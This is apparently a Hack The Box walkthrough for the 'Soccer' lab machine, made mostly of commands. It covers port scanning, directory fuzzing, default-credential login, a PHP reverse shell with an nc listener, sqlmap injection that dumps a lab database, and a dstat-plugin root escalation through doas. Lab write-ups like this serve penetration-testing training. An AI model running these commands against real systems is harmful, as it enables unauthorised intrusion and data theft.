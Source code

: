 ```
nmap -p- -T5 -Pn 10.10.11.194
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
google: tiny file manager default credentials
admin/admin@123
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```


```
nmap -p- -T5 -Pn 10.10.11.194
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8a88354-8431-4faf-bed1-9189bef20fd4)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f1f40f57-6fb8-48e4-9629-59bb877e854c)

![image](https://github.com/regarmulia/HTB/assets/33616880/acda7e8e-9e80-4d80-a1a3-333f9f8e4469)

```
google: tiny file manager default credentials
admin/admin@123
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c6bedb07-7a47-436f-942b-15c949de746b)

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4b12ad89-0d39-4877-b12f-73dab6bb0ea3)

![image](https://github.com/regarmulia/HTB/assets/33616880/ad22edf8-9aa4-49ea-a9df-ecc608b234d0)

![image](https://github.com/regarmulia/HTB/assets/33616880/b8e4db97-b66e-4138-a1b4-38552e356b67)

```
Sign in
OR 1=1
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
1324 | player@player.htb | PlayerOftheMatch2022 | player
```
![image](https://github.com/user-attachments/assets/d6a2d1d8-1e2f-44b7-9057-c14ab3b0fa68)

![image](https://github.com/user-attachments/assets/99bd9b25-a226-409f-930a-728f1cbd13c9)

![image](https://github.com/regarmulia/HTB/assets/33616880/27f854e3-b36e-4beb-90a7-708e4bbeeffa)

![image](https://github.com/regarmulia/HTB/assets/33616880/176c97ff-d6f4-4bb5-b65e-0206dd0acaf1)

![image](https://github.com/regarmulia/HTB/assets/33616880/fb5cc7e0-df48-4be9-b984-60361ec55bb6)

```
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat --list
doas /usr/bin/dstat --pwn
```
![image](https://github.com/regarmulia/HTB/assets/33616880/90eed874-4f01-4e17-894d-5755485f29a7)

![image](https://github.com/regarmulia/HTB/assets/33616880/268a22c0-f6ec-4990-bedd-586de1a71a28)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae59afef-26d4-43bf-b25a-b44eeeaaecae)
